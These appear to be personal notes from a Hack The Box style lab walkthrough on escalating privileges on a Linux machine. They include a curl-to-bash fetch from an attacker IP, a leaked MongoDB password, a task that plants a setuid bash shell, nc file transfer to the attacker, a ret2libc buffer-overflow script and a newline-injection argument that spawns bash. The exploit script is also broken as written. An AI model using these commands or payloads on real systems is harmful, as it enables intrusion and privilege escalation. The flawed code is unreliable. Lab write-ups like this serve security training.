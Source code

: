 # LinEnum
```bash
curl 10.10.14.21/linpeas.sh | bash
```
![[Pasted image 20211106220455.png]]

```bash
less /var/scheduler/app.js
```

```bash
const exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});
/var/scheduler/app.js (END)

```

```bash
mongo -p -u mark scheduler 
```

```bash
> db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/dix; /bin/chown tom:admin /tmp/dix; chmod g+s /tmp/dix;chmod u+s /tmp/dix"})
```

```bash
mark@node:~$ ls -la /tmp/dix
-rwsr-sr-x 1 tom admin 1037528 Nov  7 01:46 /tmp/dix2
mark@node:~$ /tmp/dix -p
dix-4.3$ id
uid=1001(mark) gid=1001(mark) euid=1000(tom) egid=1002(admin) groups=1002(admin),1001(mark)
```

```bash
less /var/www/myplace/app.js
```


```bash
  app.get('/api/admin/backup', function (req, res) {
    if (req.session.user && req.session.user.is_admin) {
      var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
      var backup = ''; 
```
* usr/local/bin/backup -q  45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474  /var/www/myplace


```bash
$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/local/bin/backup
/usr/bin/chfn
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/tmp/dix
/bin/ping
/bin/umount
/bin/fusermount
/bin/ping6
/bin/ntfs-3g
/bin/su
/bin/mount
```

```bash
nc 10.10.14.21 9001 < /usr/local/bin/backup
```

```bash
$ gdb ./backup 

...[snip]...

Reading symbols from ./backup...
(No debugging symbols found in ./backup)
gef➤  checksec
[+] checksec for '/home/dix/htb/node/www/backup'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

### Exploitation

* ASLR and NX are enabled, so the binary must be exploited by going the ret2libc route.  
Find libc address: ldd /usr/local/bin/backup  
Find libc system function: readelf -s /lib32/libc.so.6 | grep system  
Find libc exit function: readelf -s /lib32/libc.so.6 | grep exit  
Find libc /bin/sh reference: strings -a -t x /lib32/libc.so.6 | grep /bin/sh

```python
import struct, subprocess  
  
libc = 0xf75e2000  
sysOffset = 0x0003a940  
sysAddress = libc + sysOffset  
exitOffset = 0x0002e7b0  
exitAddress = libc + exitOffset  
binsh = libc + 0x0015900b  
  
payload = "A" * 512  
payload += struct.pack("<I", sysAddress)  
payload += struct.pack("<I", exitAddress)  
payload += struct.pack("<I", binsh)  
  
attempts = 0  
  
while True:  
attempts += 1  
print "Attempts: " + attempts  
subprocess.call(["/usr/local/bin/backup", "-i",  
"3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110",  
payload])
```

### Another way (more easy)

```bash
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "asd          
> /bin/bash
> asad"
```